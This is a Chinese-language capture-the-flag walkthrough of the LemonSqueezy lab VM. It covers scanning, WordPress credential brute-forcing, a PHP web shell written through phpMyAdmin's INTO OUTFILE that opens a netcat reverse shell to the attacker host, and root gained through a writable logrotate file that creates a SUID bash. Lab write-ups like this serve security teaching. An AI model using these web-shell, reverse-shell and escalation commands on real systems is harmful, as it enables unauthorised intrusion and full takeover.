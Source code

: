 ## LemonSqueezy



## 端口扫描

```
开放了80端口，脚本扫描发现了一些目录
/wordpress/: Blog
|   /phpmyadmin/: phpMyAdmin
|   /wordpress/wp-login.php: Wordpress login page.
|_  /manual/: Potentially interesting folder

```

 

## web扫描

```shell
# 目录扫描
dirsearch -u "http://192.168.202.131/"
    [19:35:04] 301 -  317B  - /javascript  ->  http://lemonsqueezy/javascript/
    [19:35:14] 301 -  313B  - /manual  ->  http://lemonsqueezy/manual/
    [19:35:14] 200 -  201B  - /manual/index.html
    [19:35:31] 301 -  317B  - /phpmyadmin  ->  http://lemonsqueezy/phpmyadmin/
    [19:35:35] 200 -    3KB - /phpmyadmin/doc/html/index.html
    [19:35:35] 200 -    3KB - /phpmyadmin/
    [19:35:36] 200 -    3KB - /phpmyadmin/index.php
    [19:35:51] 403 -  277B  - /server-status
    [19:35:51] 403 -  277B  - /server-status/
    [19:36:30] 200 -    8MB - /wordpress.tar.gz
    [19:36:31] 200 -    1KB - /wordpress/wp-login.php
    [19:36:31] 200 -   17KB - /wordpress/
    
# 可能的子域名扫描
wfuzz -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u "http://lemonsqueezy" -H "HOST:FUZZ.lemonsqueezy" 


# cms扫描
 wpscan --url "http://192.168.202.131/wordpress/" -e u,vp  
     [i] User(s) Identified:
     
     [+] orange
      | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
      | Confirmed By: Login Error Messages (Aggressive Detection)

     [+] lemon
      | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
      | Confirmed By: Login Error Messages (Aggressive Detection)

# 爆破
wpscan --url "http://192.168.202.131/wordpress" -U user.txt -P /usr/share/wordlist/rockyou.txt


# 得到的凭据
lemon
orange:ginger

# 登录cms后台发现了信息
n0t1n@w0rdl1st!



# 对phpmyadmin爆破
burpsuite配置宏，爆破phpmyadmin后台，用已知的凭据简单组成字典进行尝试

```

![image-20240226181113951](C:\Users\yuhao\AppData\Roaming\Typora\typora-user-images\image-20240226181113951.png)



```
成功得到了phpmyadmin的凭据
```

![image-20240226181303467](C:\Users\yuhao\AppData\Roaming\Typora\typora-user-images\image-20240226181303467.png)

```shell
得到lemon的hash，在本地使用john进行爆破，然后进行在线md5网站进行尝试均失败

## 对mysql进行枚举

show global variables like "%secure%";


```

![image-20240226181759736](C:\Users\yuhao\AppData\Roaming\Typora\typora-user-images\image-20240226181759736.png)

```
尝试写入文件
尝试网站绝对路径

select "<?php system('which nc');?>" into outfile "/var/www/html/wordpress/1.php
select "<?php system('/bin/nc -e /bin/bash 192.168.202.128 4444')?>" into outfile "/var/www/html/wordpress/1.php

本地起监听，成功得到shell

nc -lvnp 4444

```

## 提权

```
执行命令
find / -writables -type f 2>/dev/null | grep -v /proc | grep -v /sys

发现了可写文件/etc/logrotate.d/logrotate
echo "cp /bin/bash /var/www/html/wordpress/xbash;chmod +s /var/www/html/wordpress/xbash" >>/etc/logrotate.d/logrotate

执行定时任务产生的xbash文件
xbash -p

成功得到root

flag ：NvbWV0aW1lcyBhZ2FpbnN0IHlvdXIgd2lsbC4=

```



